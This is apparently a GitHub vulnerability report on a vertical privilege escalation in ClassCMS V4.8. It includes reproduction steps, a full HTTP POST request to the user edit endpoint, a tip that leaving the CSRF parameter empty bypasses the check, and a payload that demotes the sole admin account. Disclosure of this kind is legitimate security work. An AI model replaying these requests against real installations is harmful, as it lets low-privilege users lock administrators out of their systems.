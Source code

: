 # Vertical Privilege Escalation Vulnerability Report

## Description
A privilege escalation vulnerability exists in the model management module of Classcms. This allows accounts belonging to non-admin user groups to modify admin group users and change their group memberships to other user groups. If all users in the admin group are changed to other groups, the system will no longer have the ability to configure accounts for the admin group.

## Download URL
[https://github.com/ClassCMS/ClassCMS/releases/tag/v4.8](https://github.com/ClassCMS/ClassCMS/releases/tag/v4.8)

## Version
V4.8

## Tested Environment
- PHP
- Apache
- MySQL

## Affected Page
`/index.php/admin`

## Vulnerability Details
In the user management page, the username, hash, and rolehash[0] parameters are vulnerable to vertical privilege escalation. Accounts with non-admin permissions can modify the roles of members in the admin user group, even though they cannot view admin users. While the system prevents non-admin users from elevating their own roles to the admin group, it fails to account for vertical privilege escalation that allows non-admin users to downgrade the permissions of admin group members. This oversight can result in a scenario where admin users lose their admin group membership, effectively locking all admin users out of the admin group.

## Steps to Reproduce

1. To test this vulnerability, you need two roles: the default admin role and a custom aaa role with permissions for "Modify User Account" in User Management and access to Role Management. The setup should look as shown in the figure:
![image](https://github.com/user-attachments/assets/21785bd1-9e0e-4001-bb67-4ccd45c23428)
2.Log in to the backend, then click on User Management, followed by Roles, and then click Add Role. Create the aaa role and assign it only the permissions for Role Management and Modify User Account.
![image](https://github.com/user-attachments/assets/210caa40-1cee-4e46-9cb2-eae1da2b41bc)
![image](https://github.com/user-attachments/assets/36b79a44-8595-4670-a2e8-52b8e04e3e28)
![image](https://github.com/user-attachments/assets/486f5d1a-8cb2-4336-8bb5-2cf06f3340d1)
![image](https://github.com/user-attachments/assets/62709bc4-8904-40eb-95be-a237d8929c42)
3.Add a user a and assign the aaa role to them.
![image](https://github.com/user-attachments/assets/4ae05941-9ce0-44b7-9e27-6c3addf23355)
4.Log in as user a and notice that the interface is empty.
![image](https://github.com/user-attachments/assets/2e9dc7c1-8f16-4aaa-8ea3-18ef40a2ad9a)
5.Below is the complete structure of the data packet(When reproducing, please modify the `Cookie` to match your account. Additionally, remove the `csrf_XXX` parameter, as it has already been removed in the constructed POST packet. Leaving it empty will bypass the CSRF check.):

```http
POST /admin?do=admin:user:editPost HTTP/1.1
Host: 10.0.93.90
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 68
Origin: http://10.0.93.90
Connection: close
Cookie: token_595ef5=592c2e882068577109097bafcc27e7a2;
Priority: u=0

username=a&hash=a&enabled=on&rolehash%5B0%5D=admin&passwd=&passwd_2=
```
![image](https://github.com/user-attachments/assets/8fb7c68f-69c8-4989-b246-3e2817ddb547)
6.Although it shows success here, when we refresh the page, we find that the a account's privileges have not changed.
![image](https://github.com/user-attachments/assets/0263d197-8b00-4061-a3a6-804aa8488c22)
7.However, if we modify the parameters in the data packet as follows:

```http
username=admin&hash=admin&enabled=on&rolehash%5B0%5D=aaa&passwd=&passwd_2=
```

This will change the sole admin user in the admin group to the aaa group, effectively stripping it of all privileges.

